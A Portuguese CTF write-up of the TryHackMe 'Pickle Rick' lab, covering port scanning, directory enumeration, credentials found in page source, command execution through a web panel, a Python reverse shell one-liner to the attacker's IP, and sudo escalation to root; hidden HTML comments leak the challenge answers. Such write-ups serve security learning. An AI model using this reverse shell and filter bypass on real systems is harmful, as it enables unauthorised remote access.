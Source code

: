 ```yaml
---
title: TryHackMe - Pickle Rick
description: Rick e Morty CTF. Ajude a transformar Rick de volta em um humano!
author: c3n0r4
categories: [Challenges, Linux]
tags: [CTF-Fácil, nmap, gobuster, reverse-shell, privilege-escalation]
media_subpath: /assets/images/picklerick
image:
  path: capa.webp
  alt: Rick e Morty CTF. Ajude a transformar Rick de volta em um humano!
---
```


Este desafio com tema de **Rick and Morty** nos leva a explorar um servidor web em busca de **três ingredientes secretos** para ajudar Rick a preparar uma poção que o transforme novamente em humano, após ter virado um picles.

## Reconhecimento Inicial
### Varredura de Portas e Detecção de Serviços com Nmap
Comecei identificando os serviços ativos na máquina alvo usando o `nmap`com uma varredura completa de portas e detecção de serviços.

```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/picklerick]
└─$ nmap -p- -sC -sV -n -Pn -T4 10.10.189.231                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 18:24 -03
Nmap scan report for 10.10.189.231
Host is up (0.20s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 60:53:94:04:ed:ed:e4:8a:9c:05:2e:6c:ac:37:f8:15 (RSA)
|   256 f0:a3:f7:f1:be:81:3c:38:ce:12:2d:c4:92:f6:de:e6 (ECDSA)
|_  256 c2:39:e1:bb:72:28:cc:75:b1:9b:37:40:05:c3:a9:d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 464.72 seconds
```
- 22/tcp → OpenSSH 8.2p1
- 80/tcp → Apache 2.4.41
- OS: Linux

## Enumeração Web
### Análise do Serviço HTTP
Acessei o endereço e fui recebido por uma página temática de Rick and Morty.
![](pagina-inicial.webp)

Inspecionando o código-fonte, encontrei um comentário HTML que revela um nome de usuário: <!-- R1ckRul3s -->

```html
  <!--
    Note to self, remember username! Username: THM{*********}
  -->
```

### Descoberta de Arquivos e Diretórios com GoBuster
Utilizamos o ´gobuster´ para descobrir arquivos e diretórios ocultos:
```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/picklerick]
└─$ gobuster dir -u http://10.10.189.231 -e -w /usr/share/wordlists/quickhits.txt -t 100 -q
http://10.10.189.231/.ht_wsr.txt          (Status: 403) [Size: 278]
http://10.10.189.231/.hta                 (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess            (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess-dev        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess-local      (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess-marco      (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.BAK        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.bak        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.bak1       (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.old        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.save       (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess_orig       (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.orig       (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.sample     (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess.txt        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess_extra      (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess_sc         (Status: 403) [Size: 278]
http://10.10.189.231/.htaccessOLD         (Status: 403) [Size: 278]
http://10.10.189.231/.htaccessBAK         (Status: 403) [Size: 278]
http://10.10.189.231/.htaccessOLD2        (Status: 403) [Size: 278]
http://10.10.189.231/.htaccess~           (Status: 403) [Size: 278]
http://10.10.189.231/.htgroup             (Status: 403) [Size: 278]
http://10.10.189.231/.htpasswd            (Status: 403) [Size: 278]
http://10.10.189.231/.htpasswd_test       (Status: 403) [Size: 278]
http://10.10.189.231/.htpasswd-old        (Status: 403) [Size: 278]
http://10.10.189.231/.htpasswds           (Status: 403) [Size: 278]
http://10.10.189.231/.htusers             (Status: 403) [Size: 278]
http://10.10.189.231/index.phps           (Status: 403) [Size: 278]
http://10.10.189.231/login.php            (Status: 200) [Size: 882]
http://10.10.189.231/robots.txt           (Status: 200) [Size: 17]
http://10.10.189.231/server-status/       (Status: 403) [Size: 278]
```
- /login.php
- /robots.txt

### login.php
A página `login.php` revela a seguinte interface:
![](pagina-login.webp)

### robots.txt <!-- Wubbalubbadubdub -->
O arquivo `robots.txt` contém uma string sugestiva, provavelmente a senha:
```html
THM{****************}
```
Com essas informações, fui para a tentativa de login.

## Exploração e Execução Remota
### Acesso via Painel de Comandos
Após logar, encontrei um painel com um campo para execução de comandos. Tentei listar arquivos e encontrei o **primeiro ingrediente:** <!-- mr. meeseek hair -->
![](painel-comando.webp)

Apesar do comando `cat` estar bloqueado, foi possível contornar usando `tac` para leitura de arquivo. <!-- tac -->
![](comando-desabilitado.webp)

```sh
tac Sup3rS3cretPickl3Ingred.txt
THM{*** ******* ****}
```

### Shell Reversa
O campo de entrada aceita comandos do sistema, permitindo execução remota (RCE). Utilizamos esse vetor para obter uma **reverse shell**:


``` bash
# kali (listener)
┌──(c3n0r4㉿kali)-[~/tryhackme/room/picklerick]
└─$ nc -lvnp 53 
listening on [any] 53 ...
```

```bash
# Target (payload)
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.47.63",53));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

Consegui uma shell reversa como `www-data`.
```sh
connect to [10.6.47.63] from (UNKNOWN) [10.10.189.231] 52324
$ whoami
whoami
www-data
```

## Pós-Exploração
### PrivEsc  

Acessei a home do usuário `rick` e encontrei o **segundo ingrediente:** <!-- 1 jerry tear -->
``` sh
$ pwd
pwd
/var/www/html
$ cd /home      
cd /home
$ ls -larth
ls -larth
total 16K
drwxr-xr-x  4 root   root   4.0K Feb 10  2019 .
drwxrwxrwx  2 root   root   4.0K Feb 10  2019 rick
drwxr-xr-x  5 ubuntu ubuntu 4.0K Jul 11  2024 ubuntu
drwxr-xr-x 23 root   root   4.0K Jun 11 23:09 ..
$ cd rick
cd rick
$ ls -larth
ls -larth
total 12K
drwxr-xr-x 4 root root 4.0K Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
drwxrwxrwx 2 root root 4.0K Feb 10  2019  .
$ cat 'second ingredients'
cat 'second ingredients'
THM{* ***** ****}
```

### Escalada de Privilégios
Ao verificar os privilégios com `sudo -l`, descobri que o usuário www-data pode executar qualquer comando como root sem precisar de senha.

``` sh
$ ls -larth /home/ubuntu
ls -larth /home/ubuntu
total 44K
-rw-r--r-- 1 ubuntu ubuntu 3.7K Aug 31  2015 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4.0K Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
drwxr-xr-x 4 root   root   4.0K Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu 4.2K Feb 10  2019 .viminfo
drwx------ 3 ubuntu ubuntu 4.0K Jul 11  2024 .gnupg
drwxr-xr-x 5 ubuntu ubuntu 4.0K Jul 11  2024 .
drwx------ 3 ubuntu ubuntu 4.0K Jul 11  2024 .cache
-rw------- 1 ubuntu ubuntu  769 Jul 11  2024 .bash_history
$ cat /home/ubuntu/.sudo_as_admin_sucessful
cat .sudo_as_admin_sucessful
$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-189-231:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-189-231:
    (ALL) NOPASSWD: ALL
$ sudo bash -i
sudo bash -i
```

Já como root, acessei o diretório `/root`, encontrei o **terceiro ingrediente:** <!-- fleeb juice -->
```bash
root@ip-10-10-189-231:/home/rick# cd /root
cd /root
root@ip-10-10-189-231:~# ls -larth
ls -larth
total 36K
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-------  1 root root  702 Jul 11  2024 .viminfo
drwx------  4 root root 4.0K Jul 11  2024 .
drwxr-xr-x  4 root root 4.0K Jul 11  2024 snap
drwxr-xr-x 23 root root 4.0K Jun 11 23:09 ..
-rw-------  1 root root  223 Jun 12 00:27 .bash_history
root@ip-10-10-189-231:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: THM{***** *****}
```